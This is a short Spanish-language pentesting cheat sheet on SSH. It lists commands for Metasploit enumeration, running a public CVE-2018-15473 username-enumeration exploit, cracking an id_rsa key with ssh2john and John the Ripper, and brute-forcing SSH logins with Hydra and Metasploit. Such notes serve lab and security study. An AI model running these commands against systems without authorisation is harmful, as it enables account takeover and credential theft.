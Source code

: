 ```yaml
---
title: "SSH"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/ssh"
date: "2025-09-30"
---
```


### Enumeracion con metasploit
```bash
search type:auxiliary name:ssh
```

### Enumerar SSH (V2.3-7.7)
 [exploit SSH-Username-Enumeration CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473)

```
#1 clonar repositorio y luego:
pip3 install -r requirements.txt

#2 Lanzar exploit
./CVE-2018-15473.py <ip> -u <username_dictionary>
```

### Fuerza bruta id_rsa hash SSH

Teniendo el fichero id_rsa, podemos intentar crackearlo por fuerza bruta. Para ello primero debemos pasarlo a un formato que entienda john the ripper:
```bash
ssh2john id_rsa > hash.txt
```

Con el hash.txt obtenido:
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Fuerza bruta servicio SSH
#### Hydra
Si la "l" o "p" son minúsculas, le estamos indicando que utilice literalmente dicho usuario o contraseña. Si es mayúscula, lo utilizaremos para tirar de un diccionario.
```bash
hydra ssh://127.0.0.1 ssh -s 22 -l root -P pass.txt -f -vV 

# con -t 64 indicamos los hilos
hydra -t 64 ssh://127.0.0.1 ssh -s 22 -l root -P pass.txt

```

#### Metasploit
```bash
# search ssh_login, utilizaremos auxiliary/scanner/ssh/ssh_login
Completamos los datos y "run"
# METASPLOIT es un poco mas lento que hydra.
```

### Reenvio de puertos ssh
También llamado local port forwarding ![[Local port forwarding]]


